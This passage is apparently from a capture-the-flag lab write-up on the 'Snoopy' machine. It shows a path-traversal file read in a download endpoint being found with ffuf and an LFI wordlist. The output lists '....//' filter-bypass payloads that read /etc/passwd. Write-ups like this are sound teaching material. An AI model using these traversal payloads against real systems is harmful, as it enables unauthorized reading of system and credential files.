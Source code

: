 I’m going to hold off on putting these into my `hosts` file for now. `mm` I know returns something different, so that one is worthwhile. I can also see that `mail.snoopy.htb` is not there, which fits with the errors observed above. I’ll keep the others in mind as well.

## Shell as cbrown

### File Read

#### Identify

On seeing a URL like `/download?file=announcement.pdf`, the first thing to check is for a local file include or file read vulnerability. Manually I’ll check in Burp Repeater, but it just returns a 0 byte response:

![image-20230509152805795](/img/image-20230509152805795.png)

It could be not vulnerable, or there could be some filtering to bypass. I’ll use an LFI wordlist to check a lot at once with `ffuf`:

```

oxdf@hacky$ ffuf -u http://snoopy.htb/download?file=FUZZ -w /opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -mc all -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://snoopy.htb/download?file=FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
________________________________________________

....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 95ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 96ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 97ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 97ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 98ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 97ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 98ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 98ms]
....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 98ms]
```